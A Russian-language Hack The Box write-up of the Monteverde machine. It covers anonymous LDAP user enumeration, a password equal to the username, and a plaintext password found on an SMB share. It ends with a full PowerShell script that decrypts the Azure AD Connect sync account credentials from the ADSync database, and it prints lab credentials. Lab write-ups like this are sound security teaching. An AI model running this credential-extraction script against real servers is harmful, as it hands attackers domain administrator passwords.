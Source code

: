 ```yaml
---
layout: post
title: Райтап HTB Monteverde
lang: ru
categories: [Offensive, HTB]
tags: [windows, active-directory, Azure, AD-Connect, ldap]
permalink: /posts/2024-10-01-monteverde-htb-writeup
---
```



## Введение
Привет, хакеры! В этой статье мы будем извлекать информацию о пользователях из LDAP, выясним, как работать с Azure AD connect, и используем это, чтобы получить пароль администратора в открытом виде. Эта машина показалась мне довольно сложной, но я узнал много нового о powershell и sql, а также об интеграции Azure <-> AD.
## Enumeration
![8989624cbb85ec844a58e045f7fa3cf9.png]({{ site.baseurl }}/images/8989624cbb85ec844a58e045f7fa3cf9.png)

#### LDAP 
Оказалось, что нам доступно анонимное подключение к LDAP: `godap -u '' -p '' monteverde.htb`

### Дампим пользователей через LDAP
Давайте сдампим пользователей чтобы попробовать подобрать пароли.

```bash
ldapsearch -x -H ldap://monteverde.htb -b "dc=MEGABANK,dc=LOCAL" "(objectClass=user)" userPrincipalName > userprincipalname.dump
```

![72d9c0143df60c87cd6ce6a280ae9c26.png]({{ site.baseurl }}/images/72d9c0143df60c87cd6ce6a280ae9c26.png)

Теперь получим только имена с помощь grep и регулярного выражения:
```bash
grep -o -oP 'userPrincipalName:\s*([a-zA-Z0-9-]+)@[a-zA-Z0-9]+\.[a-zA-Z0-9]+' userprincipalname.dump | cut -d '@' -f 1 | cut -d ':' -f 2
```
![2f354e0f72d5b7753e2352bb4f1ef49b.png]({{ site.baseurl }}/images/2f354e0f72d5b7753e2352bb4f1ef49b.png)

#### Логин под пользователем SABatchJobs
![745e03f92cf6bfd674c037043065c59a.png]({{ site.baseurl }}/images/745e03f92cf6bfd674c037043065c59a.png)

Как видите, у одного из пользователей пароль равен его имени пользователя. Это позволило нам войти в систему. 

`SABatchJobs:SABatchJobs`

*Честно говоря, я думаю, что это довольно глупо для средней машины, никакая современная парольная политика не позволит такого, помимо того это довольно неочевидный путь, все отвыкли от таких банальных вещей (может это и правильно что нам об этом напомнили). Мне пришлось зайти на форумы, чтобы найти чей-то пост, где намекали, что следует попробовать что-то очень банальное.*

### SMB
![0f54a3e1f91aa2312411209caa72245d.png]({{ site.baseurl }}/images/0f54a3e1f91aa2312411209caa72245d.png)

У нас есть доступ к нестандартному ресурсу под названием `users$`, единственная директория, в которой что-то есть, - `mhope`. Мы находим файл azure.xml, который содержит пароль этого пользователя.
![01873a69f5da4fe0ba67b54e323ae312.png]({{ site.baseurl }}/images/01873a69f5da4fe0ba67b54e323ae312.png)

`mhope:4n0therD4y@n0th3r$`

Как вы видите ниже, у нас есть возможность зайти на сервер под этим пользователем.
![385b8ef7ee69b7e302b7536dd1abcda7.png]({{ site.baseurl }}/images/385b8ef7ee69b7e302b7536dd1abcda7.png)

Наш пользователь является администратором Azure, и если мы вернемся в LDAP, то увидим, что Azure AD Connect подключен на сервере, который является контроллером домена.
![fb78c26357743fadfbb44a48c23f3f80.png]({{ site.baseurl }}/images/fb78c26357743fadfbb44a48c23f3f80.png)

### Эксплуатация Azure AD Connect
Я нашёл [пост](https://blog.xpnsec.com/azuread-connect-for-redteam/) в гугле, как раз про эксплуатацию Azure AD Connect.

В нем есть скрипт, но он не работает из коробки. Поскольку он опирается на существующую файловую базу данных *(как sqlite, но microsoft)*. Однако у нас нет локальной базы данных, так как azure ad connect на этой машине, похоже, использует MSSQL на порту 1433.

*Я долго возился с этой частью, так как пытался пробросить порт 1433 на свою машину и извлечь таким образом данные нужные скрипту из БД. Однако локальная аутентификация windows не работала через туннель, о чем я в тот момент не знал.*

Как оказалось, существует полезный исполняемый файл под названием `sqlcmd`, он позволяет нам делать sql-запросы и использует локальный windows аутентификацию, такой вывод я сделал так как он работает без предъявления нами учетных данных.
![47c7708d199f589969f18f9a581d16cd.png]({{ site.baseurl }}/images/47c7708d199f589969f18f9a581d16cd.png)

Хотя извлечение первой части информации, необходимой для нашего скрипта, прошло нормально, вторая часть никак не хотела выводиться в формате, приемлемом для скрипта.
![8b6480e1ce21d62ee9e4f9ebfa8cf2b6.png]({{ site.baseurl }}/images/8b6480e1ce21d62ee9e4f9ebfa8cf2b6.png)

Итак, перепробовав миллион способов передачи строки sql-соединения в powershell, я написал финальную версию скрипта, который использовал БД MSSQL вместо локальной и он сработал!
```powershell

Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"

$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()


#$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM
mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)

```

Благодаря скрипту выше мы получили пароль администратора. Это позволило нам войти в систему через winrm.
![a2f6294666c0c02fc4d02f07f61969a7.png]({{ site.baseurl }}/images/a2f6294666c0c02fc4d02f07f61969a7.png)

`Administrator:d0m@in4dminyeah!`

Запавнено!
